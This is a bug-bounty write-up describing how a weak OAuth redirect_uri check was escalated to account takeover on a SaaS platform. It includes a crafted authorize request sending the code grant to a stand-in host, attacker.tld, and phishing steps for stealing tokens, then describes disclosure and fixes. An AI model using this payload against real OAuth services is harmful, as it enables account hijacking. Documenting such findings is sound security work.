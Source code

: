 ```yaml
---
title: "Bug Bounty: Escalating OAuth Misconfigurations"
summary: "How a verbose error message and weak redirect whitelist led to full account takeover in a production SaaS platform."
pubDate: "2024-01-29"
heroImage: "/images/writeups/oauth/hero.jpg"
tags:
  - Bug Bounty
  - OAuth2
  - Web Security
  - AppSec
tools:
  - Burp Suite
  - AuthAnalyzer
  - mitmproxy
---
```


## Discovery

Recon started with a standard discovery of OAuth clients in the target domain. An authorization request with a crafted `redirect_uri` produced a stack trace revealing the internal validation library in use.

```http
GET /oauth/authorize?response_type=code&client_id=prod-app&redirect_uri=https://attacker.tld/callback%23 HTTP/1.1
Host: login.target.tld
```

The parser ignored everything after `#`, allowing me to smuggle a second URI that landed the code grant on my controlled host.

## Weaponizing the Flow

1. Created a victim session using a legitimate login.
2. Sent them a phishing link with the dual redirect payload.
3. Received the authorization code at `https://attacker.tld/callback` and exchanged it for tokens.

![Proxy capture of the authorization code](/images/writeups/oauth/proxy-trace.png)

## Coordinated Disclosure

- Reported the finding with proof-of-concept scripts and recommended enforcing exact-match redirects.
- Engineering teams added PKCE enforcement and moved to strict allowlists.
- Security leadership implemented quarterly OAuth configuration reviews across all business units.

**Bounty result:** High severity payout plus an invitation to review their staged API revamp.
